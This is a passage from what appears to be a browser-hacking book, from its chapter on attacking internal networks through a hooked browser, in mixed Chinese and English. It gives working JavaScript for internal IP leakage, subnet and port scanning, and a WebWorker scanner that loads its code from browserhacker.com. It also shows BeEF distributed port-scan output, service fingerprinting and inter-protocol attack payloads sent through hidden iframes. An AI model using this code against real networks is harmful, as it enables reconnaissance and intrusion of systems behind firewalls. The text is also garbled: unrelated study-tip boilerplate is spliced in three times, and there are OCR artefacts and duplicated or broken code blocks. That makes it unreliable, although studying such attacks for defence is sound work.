30. `n.runs AG`. (2011). `Denial of Service through hash table multi-collisions`. Retrieved `June 15, 2013` from `https://www.nruns.com/_downloads/advisory28122011.pdf`

31. `Fortify`. (2012). `Web Server DoS by Hash Collision`. Retrieved `June 15, 2013` from `http://web.archive.org/web/20120120043647/http://blog.fortify.com/blog/Vulnerabilities-Breaches/2012/01/04/Web-Server-DoS-by-Hash-Collision`

32. `R. Regan`. (2011). `Java HangsWhen Converting 2.2250738585072012e-308`. Retrieved `October 8, 2013` from `http://www.exploringbinary.com/java-hangs-when-converting-2-2250738585072012e-308/`

33. `F. Assolini`. (2012). `The tale of one thousand and one DSL modems`. Retrieved `October 8, 2013` from `https://www.securelist.com/en/blog/208193852/The_tale_of_one_thousand_and_one_DSL_modems`

34. `C. Hoepers`. (2012). `Tratamento de Incidentes de Segurança e Tendências no Brasil`. Retrieved `October 8, 2013` from `http://www.cert.br/docs/palestras/certbr-jornada-sisp2012.pdf`

35. `T. Donev`. (2011). `Comtrend ADSL Router (CT-5367) C01_R12 Remote Root`. Retrieved `October 8, 2013` from `http://www.exploit-db.com/exploits/16275/`

36. `Wikipedia`. (1983). `Scarface`. Retrieved `June 15, 2013` from `https://en.wikipedia.org/wiki/Scarface_(1983_film)``)

37. `R. Suggi Liverani`. (2012). `Oracle Glassfish REST Interface—Cross-site Request Forgery Vulnerability`. Retrieved `June 15, 2013` from `http://www.security-assessment.com/files/documents/advisory/Oracle_GlassFish_Server_REST_CSRF.pdf`

38. `K. Kotowicz`. (2011). `How to upload arbitrary file contents cross-domain`. Retrieved `June 15, 2013` from `http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html`

39. `Mozilla Developer Network`. (2013). `XMLHttpRequest`. Retrieved `June 15, 2013` from `https://developer.mozilla.org/en-US/docs/DOM/XMLHttpRequest#sendAsBinary()``)

40. `Y. Cam`. (2012). `m0n0wall 1.33 Cross-site Request Forgery Vulnerability`. Retrieved `June 15, 2013` from `http://1337day.com/exploit/19906`

41. `Pentestmonkey`. (2013). `PHP reverse shell`. Retrieved `June 15, 2013` from `http://pentestmonkey.net/tools/web-shells/php-reverse-shell`

42. `M. Sajdak`. (2009). `ASMAX AR 804 gu compromise`. Retrieved `October 8, 2013` from `http://www.securitum.pl/dh/asmax-ar-804-gu-compromise`

43. `T. Baume`. (2011). `Netcomm NB5 Botnet—PSYB0T 2.5L`. Retrieved `October 8, 2013` from `http://users.adam.com.au/bogaurd/PSYB0T.pdf`

44. `P. Cˇeleda` and `R. Krejcˇí`. (2011). `An Analysis of the Chuck Norris Botnet 2`. Retrieved `October 8, 2013` from `http://www.muni.cz/research/projects/4622/web/files/cnb-2.pdf`

45. `C. Heffner`. (2013). `Binwalk`. Retrieved `October 8, 2013` from `https://code.google.com/p/binwalk/`

46. `C. Heffner` and `J. Collake`. (2013). `Firmware Modification Kit`. Retrieved `October 8, 2013` from `https://code.google.com/p/firmware-mod-kit/`

47. `R. Kornmeyer`. (2013). `Creating Malicious Firmware with Firmware-Mod-Kit`. Retrieved `October 8, 2013` from `http://pauldotcom.com/2013/06/creating-malicious-firmware-wi.html`

# *Chapter 10*

# *Attacking Networks*


-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


在 BeEF 中，Java 代码已经被编译成 Java 类文件。当模块执行时，它会使用 beef.dom.attachApplet() JavaScript 函数将类文件加载到目标浏览器中。Figure 10-1 展示了最新 Java 1.6 插件在“获取内部 IP”模块上的输出效果。

<｜begin▁of▁sentence｜># 图片文字内容

### 图片文字内容

### 图片文字内容

- **Figure 10-1** 的标题是“Get Internal IP”命令模块输出。

- 图片中有一张图片，文件名为 c10f001.tif，显示的是一个网页界面，其中包含一个标题为“Get Internal IP”的模块，显示的是当前浏览器的内部 IP 地址。

- 图片下方有一行文字：“end figure”。

### 图片文字内容

- 你可能记得，第 5 章探讨了 Web Real Time Communications（WebRTC）标准，用于在社交工程攻击中与计算机的网络摄像头进行接口交互。

- 另一个被提议的 WebRTC 特性是对等连接组件。

3

在 DOM 中，这项功能通过 window.RTCPeerConnection、window.webkitRTCPeerConnection 或 window.mozRTCPeerConnection 对象实现，具体取决于浏览器。该技术的目标是为丰富的 Web 应用提供一种点对点通信的方法。例如，它允许在浏览器内进行视频聊天，而无需依赖第三方技术，如 Flash。

在该功能的核心是交互式连接建立（ICE）框架。ICE 设计用于让浏览器能够直接与其他浏览器进行通信。当然，防火墙和 NAT 技术通常会阻止两个孤立浏览器之间的直接通信。因此，会话穿越实用程序（STUN）和通过 NAT 进行中继（TURN）概念被构建。4

该想法基于中继或连接服务器作为两个浏览器之间的中间点。为了帮助两个浏览器之间的初始握手，使用会话发现协议（SDP）5。SDP 标准定义了两个方之间需要的信息的共同语言，以便它们可以相互建立连接。2013 年，Nathan Vander Wilt6 发现 RTCPeerConnection 的实现，特别是用于构建 SDP 消息的函数，可以用来泄露浏览器的内部 IP 地址。以下代码片段演示了如何利用此技术获取内部 IP 地址：

<|ref|>code<|/ref|><|det|>[[23, 350, 970, 775]]<|/det|>

这段代码首先创建一个名为 rtc 的 RTCPeerConnection 对象。随后为它绑定一个处理程序，用于检测到 ICE 候选者时的事件。代码随后创建一个 SDP 请求，通常需要通过中继服务器提交。但由于没有设置中继服务器，请求被包含在内部。然后解析 SDP 字符串以提取内部 IP 地址。

有了这些详细信息，可以对内部网络进行更精准和更具针对性的攻击。然而，如果 Java 或 WebRTC 不可用，情况并未结束！你仍然有方法来分析潜在的内部 IP 范围。

## 识别挂钩浏览器的子网

发现浏览器的内部 IP 地址虽然有帮助，但不是你攻击内部网络的关键要求。在超过 1700 万（RFC1918 地址空间）的可能地址中寻找目标地址可能看起来是不可能完成的任务。然而，你可以通过一些简单的推断将这个问题缩小为可实现的部分。

第一种缩小潜在目标范围的方法是基于教育性猜测内部网络范围。通常不会看到 10.0.0.0/24、10.1.1.0/24 或 192.168.1.0/24 这些范围。这些范围是很好的起点。当然，你需要根据从浏览器中提取的细节来确认你的猜测。

2009 年，Robert Hansen 发现 7，当向内部可用的 IP 发出 XMLHttpRequest 跨域请求时，响应会很快返回，时间顺序为秒。但如果主机不可用，响应会返回较长的延迟。由于这两种情况之间的时间差很大，你可以根据响应的时间来判断内部网络主机是否在线。

你可以使用以下代码，这是对 Hansen 方法的增强版本，来发现挂钩浏览器的当前子网，而无需知道其内部 IP：


```javascript
var ranges = [
'192.168.0.0','192.168.1.0',
'192.168.2.0','192.168.10.0',
'192.168.100.0','192.168.123.0',
'10.0.0.0','10.0.1.0',
'10.1.1.0'
];
var discovered_hosts = [];
// XHR timeout
var timeout = 5000;

function doRequest(host) {
var d = new Date;
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = processRequest;
xhr.timeout = timeout;

function processRequest(){
 if(xhr.readyState == 4){
  var time = new Date().getTime() - d.getTime();
  var aborted = false;
  // if we call window.stop() the event triggered is 'abort'
  // http://www.w3.org/TR/XMLHttpRequest/#event-handlers
  xhr.onabort = function(){
    aborted = true;
  }

  xhr.onloadend = function(){
    if(time < timeout){
      // 'abort' fires always before 'onloadend'
      if(time > 10 && aborted === false){ 
        console.log('Discovered host ['+host+
            '] in ['+time+'] ms');
        discovered_hosts.push(host);
      }
    }
    }
 }
}

xhr.open("GET", "http://" + host, true);
xhr.send();
}

var start_time = new Date().getTime();
function checkComplete(){
    var current_time = new Date().getTime();
    if((current_time - start_time) > timeout + 1000){
        // to stop pending XHRs, especially in Chrome
        window.stop(); 
        clearInterval(checkCompleteInterval);
        console.log("Discovered hosts:\n" + 
            discovered_hosts.join("\n"));
    }
}

var checkCompleteInterval = setInterval(function(){
  checkComplete()}, 1000);

for (var i = 0; i < ranges.length; i++) {
 // the following returns like 192.168.0.
 var c = ranges[i].split('.')[0]+'.'+
 ranges[i].split('.')[1]+'.'+
 ranges[i].split('.')[2]+'.';
 // for every entry in the 'ranges' array, request
 // the most common gateway IPs, like:
 // 192.168.0.1, 192.168.0.100, 192.168.0.254
 doRequest(c + '1');
 doRequest(c + '100');
 doRequest(c + '254');
}
```

The WebWorker controller code, used to coordinate the WebWorkers, is the following:


if(!!window.Worker){

// WebWorker 代码位置
var wwloc = "http://browserhacker.com/network-discovery/worker.js";
var workersDone = 0;
var totalWorkersDone = 0;
var start = 0;

// 并行生成的 WebWorker 数量
var workers_number = 5;
// 每 0.5 秒调用一次 checkComplete()
var checkCompleteDelay = 1000;
var start = new Date().getTime();
var xhr_timeout = 5000;
var lowerbound = 1;
var upperbound = 50; // 创建 50 个 XHR 大约需要 5 秒。
var discovered_hosts = [];
var subnet =  "192.168.0.0";
var worker_i = 0;

/* 在 'start' 位置新建 WebWorker 以处理数据获取 */
function spawnWorker(lowerbound, upperbound){
   worker_i++; 
   // 使用 eval 动态创建 WebWorker 变量
   eval("var w" + worker_i + " = new Worker('" + wwloc + "');");
   eval("w" + worker_i + ".onmessage = function(oEvent){" +
   "if(oEvent.data['completed']){workersDone++;totalWorkersDone++;}else{" +
   "var host = oEvent.data['host'];" + 
   "var time = oEvent.data['time'];" +
   "console.log('Discovered host ['+host+'] in ['+time+'] ms');" + 
   "discovered_hosts.push(host);"+
   "}};");
   eval("var data = {'xhr_timeout':" + xhr_timeout + ", 'subnet':'" + subnet +
    "', 'lowerbound':" + lowerbound +", 'upperbound':" + upperbound + "};");
   eval("w" + worker_i + ".postMessage(data);");
   console.log("Spawning worker for range: " + subnet);
}

function checkComplete(){
 if(workersDone === workers_number){
 console.log("Current workers have completed.");
 console.log("Discovery finished on network " + subnet + "/24");
   clearInterval(checkCompleteInterval);
   var end = new Date().getTime();
   //window.stop();
   console.log("Total time [" + (end-start)/1000 + "] seconds.");
   console.log("Discovered hosts:\n" + discovered_hosts.join("\n"));
 }else{
  console.log("Waiting for workers to complete..." +
   "Workers done ["+workersDone+"]");
 }
}

function scanSubnet(){
 console.log("Discovery started on network " + subnet + "/24");
 spawnWorker(1, 50);
 spawnWorker(51, 100);
 spawnWorker(101, 150);
 spawnWorker(150, 200);
 spawnWorker(201, 254);
}

// 首次调用
scanSubnet();

var checkCompleteInterval = setInterval(function(){
  checkComplete()}, checkCompleteDelay);

}else{
console.log("WebWorker not supported!");
}
```

```
if(!!window.Worker){

// WebWorker 代码位置
var wwloc = "http://browserhacker.com/network-discovery/worker.js";
var workersDone = 0;
var totalWorkersDone = 0;
var start = 0;

// 并行生成的 WebWorker 数量
var workers_number = 5;
// 每 0.5 秒调用一次 checkComplete()
var checkCompleteDelay = 1000;
var start = new Date().getTime();
var xhr_timeout = 5000;
var lowerbound = 1;
var upperbound = 50; // 创建 50 个 XHR 大约需要 5 秒。
var discovered_hosts = [];
var subnet =  "192.168.0.0";
var worker_i = 0;

/* 在 'start' 位置新建 WebWorker 以处理数据获取 */
function spawnWorker(lowerbound, upperbound){
   worker_i++; 
   // 使用 eval 动态创建 WebWorker 变量
   eval("var w" + worker_i + " = new Worker('" + wwloc + "');");
   eval("w" + worker_i + ".onmessage = function(oEvent){" +
   "if(oEvent.data['completed']){workersDone++;totalWorkersDone++;}else{" +
   "var host = oEvent.data['host'];" + 
   "var time = oEvent.data['time'];" +
   "console.log('Discovered host ['+host+'] in ['+time+'] ms');" + 
   "discovered_hosts.push(host);"+
   "}};");
   eval("var data = {'xhr_timeout':" + xhr_timeout + ", 'subnet':'" + subnet +
    "', 'lowerbound':" + lowerbound +", 'upperbound':" + upperbound + "};");
   eval("w" + worker_i + ".postMessage(data);");
   console.log("Spawning worker for range: " + subnet);
}

function checkComplete(){
 if(workersDone === workers_number){
 console.log("Current workers have completed.");
 console.log("Discovery finished on network " + subnet + "/24");
   clearInterval(checkCompleteInterval);
   var end = new Date().getTime();
   //window.stop();
   console.log("Total time [" + (end-start)/1000 + "] seconds.");
   console.log("Discovered hosts:\n" + discovered_hosts.join("\n"));
 }else{
  console.log("Waiting for workers to complete..." +
   "Workers done ["+workersDone+"]");
 }
}

function scanSubnet(){
 console.log("Discovery started on network " + subnet + "/24");
 spawnWorker(1, 50);
 spawnWorker(51, 100);
 spawnWorker(101, 150);
 spawnWorker(150, 200);
 spawnWorker(201, 254);
}

// 首次调用
scanSubnet();

var checkCompleteInterval = setInterval(function(){
  checkComplete()}, checkCompleteDelay);

}else{
console.log("WebWorker not supported!");
}
```


-   [pingSweep Java Applet](https://example.org/pingSweep) 附加到挂钩页面的 DOM 后，会调用 `document.pingSweep.getAliveHosts()`。如果 Applet 还未完成，则之前的调用会抛出异常，代码会等待 1 秒后再次尝试。此过程会持续进行，直到 Applet 返回所有已存活的主机列表，或 30 秒的超时时间到达。无论哪种情况，随后都会通过调用 `beef.dom.detachApplet()` 清理 DOM。

使用此技术，或前文讨论的 JavaScript 方法，你现在应该能够大致判断挂钩浏览器所在的内部网段，以及哪些主机是存活的。

# Port Scanning（端口扫描）

现在你拥有了相对准确的可用主机集合，下一阶段是确定这些主机上哪些端口是打开的。这阶段的侦察工作即为端口扫描组件。在进行进一步的定向攻击时，这一步尤为重要。

SPI Dynamics8 于 2006 年发布了首篇公开的浏览器端口扫描研究论文，原始技术在当时颇具创新性，依赖于 `` 标签以及自定义的 `onload/onerror` 处理函数配合计时器。

随后，Jeremiah Grossman 在 BlackHat 2006 发表了自己的研究成果，9 其中展示了从浏览器向内部网络发起攻击的示例。随后，Petko Petkov10 发布了第一个可靠的 JavaScript 端口扫描代码实现，代码如下：

``` 
scanPort: function(callback, target, port, timeout){
 var timeout = (timeout == null)?100:timeout;
 var img = new Image();

 img.onerror = function () {
    if (!img) return;
    img = undefined;
    callback(target, port, 'open');
 };

 img.onload  = img.onerror;
 // note that http:// is used
 img.src = 'http://' + target + ':' + port;

 setTimeout(function () {
    if (!img) return;
    img = undefined;
    callback(target, port, 'closed');
 }, timeout);
},

// ports_str 例如 "80,8080,8443"
scanTarget: function(callback, target, ports_str, timeout){
 var ports = ports_str.split(",");

 for (index = 0; index < ports.length; index++) {
    this.scanPort(callback, target, ports[index], timeout);
 };
}
```

尽管该技术已相当老旧，但仍被视为对你可用的相对可靠的端口扫描方法。新方法如使用 CORS 或 WebSocket 请求已被提出，但可靠性较低或已在现代浏览器中被修补。需要注意的是，Petkov 的技术并非没有限制；例如，浏览器内的端口禁禁（port banning）会限制通过 HTTP 请求可访问的端口。

## Bypassing Port Banning（绕过端口禁禁）

除了 Same Origin Policy（SOP）之外，现代浏览器还有一项旨在防止对非 HTTP 服务发起攻击的限制特性——端口禁禁。该特性禁止向诸如 22、25、110、143 等特定端口发送请求，以阻止浏览器向已知端口上的服务发起连接。

start feature 

* * *

**Port Banning** 端口禁禁是浏览器实现的安全措施，用于拒绝连接非标准 TCP 端口的请求。如果你在端口 143（IMAP 默认端口，非 HTTP）上运行一个 Web 服务器，则无法通过浏览器连接它。大多数 Web 服务器在 80、443、8080、8443 等端口提供网页内容。也有例外，例如 Web Service 及少数其他应用或协议。端口禁禁的实现因浏览器而异（不出所料）。此外，还可以放宽此安全措施，但与其他安全控制不同，它并不通过 HTTP 头、HTML 标签或属性（如 SOP）来配置，而是在浏览器的核心配置选项中完成。在 Firefox 中，可以通过访问 `about:config` 并向 `network.security.ports.banned.override` 属性中添加端口来解除禁用；在 Chrome 中则需要以命令行参数启动浏览器，例如 `--explicitly-allowed-ports=PORT`。

* * *

end feature 

之前的 JavaScript 端口扫描实现使用了 HTTP 协议来连接自定义 TCP 端口。当然，如果目标端口被浏览器的端口禁禁列表禁止，则该方法不可行。Figure 10-6 展示了在 Firefox 中尝试通过 `http://172.16.37.147:143` 连接时的错误示例。Figure 10-7 展示了 Netcat 监听器（未接收到来自 Firefox 的任何数据）。

start figure 

**Figure 10-6:** 尝试使用 HTTP 协议连接端口 143 时的错误


end figure  start figure 

**Figure 10-7:** Netcat 监听器（未接收到任何数据）


end figure 

端口禁禁阻止向特定 TCP 端口发送请求，是大多数浏览器实现的安全特性。但与 SOP 类似，端口禁禁也存在实现差异。一个典型的差异是不同浏览器禁禁的端口不同。例如，Chrome 与 Safari 会阻止 IRC 默认端口 6667，而 Firefox 与 Internet Explorer 则允许该端口。基于此行为的 IRC NAT 钻探技术以及跨协议通信与利用，正是利用了这些差异（后文将进一步说明）。

端口禁禁是由于著名的“Extended HTML Form 攻击”（Sandro Gauci 2002）而实施的。Gauci 在 2008 年重新审视此攻击，发表了《The Extended HTML Form Attack revisited》12 论文，其中列出了被端口禁-disable 的端口，并指出了不同浏览器版本之间的差异。Figure 10-8 展示了多个浏览器中被禁止端口的对比。

被禁 TCP 端口列表因开源浏览器的源码可公开而为人所知。你可以通过查看 Chrome 的 `net_util.cc`13 与 Firefox 的 `ncIOService.cpp`14 来查看具体的禁端口数字。显然，对闭源浏览器（如 Internet Explorer）无法直接查看其源码。

如果你想验证哪些端口在闭源和开源浏览器中实际被禁，可以使用下面的代码片段。服务器端是用 Ruby 编写的多线程脚本，监听 HTTP 请求并确认客户端是否建立了连接；客户端则遍历一个端口范围，发送多个 `XMLHttpRequest` 请求。

此外，还需要配置 iptables 将所有 TCP 端口转发到服务器监听的端口。假设脚本绑定在 `192.168.0.3:10000`，则下面的 iptables 规则将所有流量转发至该端口：

```
iptables -A PREROUTING -t nat -i eth1 -p tcp --dport\
1:65535 -j DNAT --to-destination 192.168.0.3:10000
```

这意味着无需为每个 TCP 端口单独部署监听器。下面的 Ruby 代码会在 TCP 端口 10000 上监听：


-   [使用费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**理查德·费曼**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


The `dist_pscanner.rb` script, available from [`https://browserhacker.com`](https://browserhacker.com), provides an interactive way to conduct a distributed port scan. It asks for which browsers to distribute the scan over, the target IP address, and the TCP port range. The script then splits up the load, and queues up the commands for each of the selected browsers. Here is the command using just a single browser (inputs are highlighted):

``` 
$ ruby ./dist_pscanner.rb 
[>>>] BeEF Distributed Port Scanner] 
 [+] Retrieved RESTful API token: 
     006c1aed13b124d0c1c8fb50c98fb35d04a78d5e 
[+] Retrieved Hooked Browsers list. Online: 3 
[+] Retrieved 185 available command modules 

[+] Online Browsers: 
[1] 127.0.0.1 - C28 Macintosh 
[2] 192.168.1.101 - C28 Windows 7 
[3] 127.0.0.1 - C28 Macintosh 

[+] Provide a comma separated list of browsers to use (i.e. 1 or 1,3 or 
    1,2,3 etc): 
1 
[+] Using: 
[1] 127.0.0.1 - C28 Macintosh 

[+] Enter target IP to port scan: 
192.168.1.254 

[+] Enter target ports to scan (i.e. 1-65535 or 22-80 or 1-1024): 
70-80 

[+] Split will be as follows: 
[1] 70-80 

[+] Ready to proceed? <Enter> 

[+] Starting port scan against 192.168.1.254 from 70-80 [1] 
[+] Scan queued... 
[1] port=Scanning: 70,71,72,73,74,75,76,77,78,79,80 
[1] port=WebSocket: Port 80 is OPEN (http) 
[1] Scan Finished in 43995 ms 
[+] All Scans Finished!! 
Time Taken: 60.248801 
```

In this example, a single Chrome browser scanned an IP address’s ports from 70 to 80 in about 60 seconds. If the same is executed again using three hooked browsers, the response is slightly different:

``` 
$ ruby ./dist_pscanner.rb 
[>>>] BeEF Distributed Port Scanner] 
 [+] Retrieved RESTful API token: 
     006c1aed13b124d0c1c8fb50c98fb35d04a78d5e 
[+] Retrieved Hooked Browsers list. Online: 3 
[+] Retrieved 185 available command modules 

[+] Online Browsers: 
[1] 127.0.0.1 - C28 Macintosh 
[2] 192.168.1.101 - C28 Windows 7 
[3] 127.0.0.1 - C28 Macintosh 

[+] Provide a comma separated list of browsers to use (i.e. 1 or 1,3 or 
    1,2,3 etc): 
1,2,3 
[+] Using: 
[1] 127.0.0.1 - C28 Macintosh 
[2] 192.168.1.101 - C28 Windows 7 
[3] 127.0.0.1 - C28 Macintosh 

[+] Enter target IP to port scan: 
192.168.1.254 

[+] Enter target ports to scan (i.e. 1-65535 or 22-80 or 1-1024): 
70-80 

[+] Split will be as follows: 
[1] 70-73 
[2] 74-77 
[3] 78-80 

[+] Ready to proceed? <Enter> 

[+] Starting port scan against 192.168.1.254 from 70-73 [1] 
[+] Scan queued... 
[+] Starting port scan against 192.168.1.254 from 74-77 [2] 
[+] Scan queued... 
[+] Starting port scan against 192.168.1.254 from 78-80 [3] 
[+] Scan queued... 
[1] port=Scanning: 70,71,72,73 
[2] port=Scanning: 74,75,76,77 
[3] port=Scanning: 78,79,80 
[3] port=CORS: Port 80 is OPEN (http) 
[3] port=WebSocket: Port 80 is OPEN (http) 
[2] Scan Finished in 14800 ms 
[3] Scan Finished in 11997 ms 
[1] Scan Finished in 15998 ms 
[+] All Scans Finished!! 
Time Taken: 32.306009 
```

Splitting up the same command over three browsers brings it down to around 32 seconds, as opposed to 60 seconds. This can be further optimized by reducing the polling time of the hooked browsers, and also by using the WebSocket protocol as the main communication channel between the hooked browser and BeEF.

Although this Ruby script has been constructed with this single purpose in mind, there’s nothing preventing the BeEF RESTful API from being used to distribute any other logic within a hooked browser. Another example is to speed up the process of dumping data cross-origin with SQL injection, as discussed in Chapter 9.

# Fingerprinting Non-HTTP Services

Fingerprinting non-HTTP services is quite different from fingerprinting web applications. Examining web applications, as explored in Chapter 9, is relatively straightforward. The browser can request resources using standard HTTP requests, and from this information you extrapolate what the web application might be.

Unlike fingerprinting web interfaces, these same techniques cannot often be used directly against a non-HTTP service. These services do not expose known resources, such as images or pages, which you can identify and fingerprint cross-origin. Due to this limitation, fingerprinting non-HTTP services from a browser often ends with less reliable results. Luckily, you can use a few techniques to increase your knowledge of the target service.

The first technique is to simply rely on the results from the port scanning discussed at the beginning of the chapter. If TCP port 6667 appears to be up, you can assume that it’s an IRC service according to the default port number. If port TCP 5900 is up, you can assume it’s a VNC service. Of course, there could be different implementations of a service listening on the same port. You’ll want to narrow down the possibilities to increase the likelihood of choosing the appropriate exploit to launch at your target.

To help refine these assumptions, perhaps even to the point of differentiating between different VNC listening applications, you can analyze the timing of requests. This is the second method of fingerprinting non-HTTP services. Mark Lowe initially used the FTP scheme to demonstrate the effectiveness of this method.18 In this instance, you will use HTTP instead.

You start with analyzing the amount of time a service requires to close a TCP connection—monitoring when the status of the XMLHttpRequest object you use is equal to 4 (done).19 Detecting version differences, say between UltraVNC 1.0.9 and 1.1.9, is unrealistic because the timing difference (if any) will be too minimal. However, detecting different implementations, like identifying UltraVNC or TightVNC, is a plausible option. You can use the following code as a starting point:

``` 
var target = "172.16.37.151"; 
var port = 5900; 
var count = 1; 
var time = 0; 

function doRequest(){
if(count <= 3){
    var xhr = new XMLHttpRequest(); 
    var port = 5900; 
    xhr.open("POST", "http://" + target + ":" + 
        port + "/" + Math.random()); 
    var start = new Date().getTime(); 
    xhr.send("foo"); 
        
    xhr.onreadystatechange = function () { 
     if (xhr.readyState == 4) { 
         var end = new Date().getTime(); 
         console.log("DONE in " + (end-start) + " ms"); 
         count++; time += end-start; 
         doRequest(); 
      } 
    } 
}else{
    console.log("COMPLETED. Average: " + time/3); 
} 

doRequest(); 
``` 
This code is simply sending three XHRs to the same target port, in this case 5900. It then monitors how long it takes for the service to close the connection. Finally, the average timing for the service to close the connection is calculated. Figure 10-10 shows the code targeting TightVNC 2.7.1, and Figure 10-11 shows the same test on UltraVNC 1.1.9.

 start figure 

**Figure 10-10:** Fingerprinting TightVNC 

 

 end figure   start figure 

**Figure 10-11:** Fingerprinting UltraVNC 

 

As you can see from these two screenshots in Figure 10-10 and Figure 10-11, the average close timing for TightVNC is 15 milliseconds, whereas for UltraVNC it is 20. This is a very simple example, but many services out there have a much bigger timing difference.

The third fingerprinting method is by implementing Inter-protocol Communication (IPC) requests. For instance, if the browser is able to establish a bidirectional channel to a listening Telnet service it will be able to see the Telnet service’s header. These methods are discussed in more detail in the upcoming sections. In the presence of IPC-capable services, particularly those that can be communicated with in a bidirectional manner, fingerprinting can be very effective.

# Attacking Non-HTTP Services


-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**理查德·费曼**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


-   [伪造的 DCC 请求提交后，路由器随后允许来自 browserhacker.com 的入站流量在 22 端口上。该流量被重定向到内部服务器。最终结果是边界控制被修改，允许外部流量访问此前受保护的内部系统，使 IP 访问控制列表失效。](https://browserhacker.com)

Leppens 还贡献了一个利用 NAT Pinning 的 BeEF 模块。

Eric Leblond 将这些攻击扩展到除 IRC 之外的其他协议。他发布了名为 opensvp25 的工具，用于执行这些攻击。除了使用经典的 IRC DCC 方法外，该工具还可以使用 FTP 动态打开防火墙端口。请注意，21 端口已被禁用，因此无法在浏览器中进行 FTP NAT Pinning。

NAT Pinning 攻击是一个很好的例子，说明从网络中浏览器发起的请求如何影响更广阔的环境。通过伪造请求，并欺骗网关控制，你可以直接访问新目标并进一步扩展访问以进行后续攻击。

### 实现跨协议通信

2006 年，Wade Alcorn 发表了关于跨协议通信（IPC）的研究论文。IPC 的概念是：两种不同的协议，尽管语法不同，仍然可以相互传递有意义的信息。

在大多数情况下，成功的 IPC 条件更多取决于开发者的实现决策，而非协议规范本身。这些条件实际上非常简单。要实现两种不同协议之间的通信，必须满足以下前提：

*   目标协议实现具备容错能力

*   能够将目标协议的数据封装进 HTTP 请求

在浏览器环境中，这通常涉及向一个监听服务提交一个 HTTP 请求，该服务不使用 HTTP 协议。随后，请求（或其中一部分）会被正确解析。

让我们来看一个例子。一个虚构的协议语法非常简洁，它只理解两条不需要身份验证的命令：

```
READ <file_path>
WRITE <content> <file_path>
```

要判断该协议实现是否适合 IPC，你需要了解哪些条件会导致其丢弃 TCP 连接。如果下面的（非协议）数据被发送且连接仍保持活动，则说明该实现有潜力，值得进一步探索：

```
ADD foobar
```

由于客户端与服务器之间的连接未被重置，客户端可以继续使用同一 TCP 连接发送数据。因此，如果客户端发送以下数据，前两条错误的行会被丢弃，而第三条可能会被解析并成功执行：

```
ADD foo
ADD bar
WRITE browserhacker.com /opt/protocol/browserhacker
```

浏览器 IPC 会将整个消息包装进 HTTP POST 请求。下面的示例展示了很可能在目标服务上执行命令的请求：

```
POST / HTTP/1.1
Host: 192.168.1.130:4444
User-Agent: Mozilla/5.0 
Content-type: text/plain
Content-Length: 51

WRITE browserhacker.com /opt/protocol/browserhacker
```

HTTP 请求头将被丢弃，连同 CRLF 一起，而请求的最后一行会被目标协议正确处理。正如你所见，POST 请求让你可以在请求体中自由添加任意数据，而无需在前面预置标准 HTTP 头。正是在请求体中，你才真正掌控与目标协议的通信。这是浏览器通过 IPC 与目标协议通信的核心概念。

你的 POST 请求必须将 Content-Type 设置为 text/plain 或 multipart/form-data。这是为了确保可以通过 XMLHttpRequest（或 HTML 表单）跨源发送请求，如第 9 章“发送跨源请求”节中讨论。这两种 Content-Type 不限制你可以使用的数据格式，而 application/x-www-form-urlencoded 则限制你必须使用 body 结构为 parameter=value，并使用 & 连接额外参数。空格等字符的编码也可能出现问题。使用 text/plain 或 multipart/form-data，你对请求体的内容拥有完全自由，例如可以添加 CR/LF 行和空格。

你有两种方式在浏览器中发送跨源 text/plain 或 multipart/form-data POST 请求。第一种方式是动态创建 HTML 表单，并使用 JavaScript 提交。BeEF 的 JavaScript API 提供了 createIframeIpecForm() 方法来实现：

```
createIframeIpecForm: function(rhost, rport, path, commands){
 // 创建一个不可见的 Iframe 元素，HTML 表单将放置在此
 var iframeIpec = beef.dom.createInvisibleIframe();

 // 创建 HTML 表单。注意 enctype 属性。
 var formIpec = document.createElement('form');
 formIpec.setAttribute('action',  'http://'+rhost+':'+rport+path);
 formIpec.setAttribute('method',  'POST');
 formIpec.setAttribute('enctype', 'multipart/form-data');

 // 创建 textarea 元素
 // 用于添加 POST body
 input = document.createElement('textarea');
 input.setAttribute('name', Math.random().toString(36).substring(5));
 input.value = commands;
 formIpec.appendChild(input);
 iframeIpec.contentWindow.document.body.appendChild(formIpec);
 formIpec.submit();

 return iframeIpec;
}
```

该方法的调用方式如下：

```
beef.dom.createIframeIpecForm(host, port, path, commands);
```

注意，大多数情况下 path 参数并不需要。commands 参数保存你想在 POST 请求体中发送的数据。

第二种在浏览器中发起 IPC 的方式是使用 XMLHttpRequest 对象。下面的代码展示了一个示例：

```
var xhr = new XMLHttpRequest();
var uri = "http://" + host + ":" + port + "/";
xhr.open("POST", uri, true);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.setRequestHeader('Accept','*/*');
xhr.setRequestHeader("Accept-Language", "en");
xhr.send(command + "\r\n");
```

command 变量包含你想发送给协议的数据，后面跟一个回车符和换行符（\\r\\n）。许多协议使用这些字符来标记当前命令的结束。

这便是浏览器通过 IPC 与虚构协议进行通信的一个例子。该协议实现支持了一些属性，使得此类攻击成为可能。下面的章节将更详细地探讨这些前提条件。

### 协议的容错能力

IPC 的第一个挑战是确保目标协议实现能够容忍错误。这通常会区分那些可以通过浏览器通过 IPC 进行通信的协议与不能的协议。

如前面的例子所示，大部分 HTTP 请求内容（如头部）应被目标协议丢弃。SMTP 是一个很好的教育示例。不过，由于它运行在禁用端口上，在渗透评估中使用会受到限制。

在 UNIX 系统上，至少有四种 SMTP 实现，包括 Postfix、Sendmail、Qmail 和 Exim。在默认配置下，Exim 4.50 在发现四次错误后才会断开客户端连接。这种严格的要求使得你无法针对 Exim 版本高于 4.50 进行 IPC，因为从被钩住的浏览器发送的每个 HTTP 请求都会包含多于四个头部。

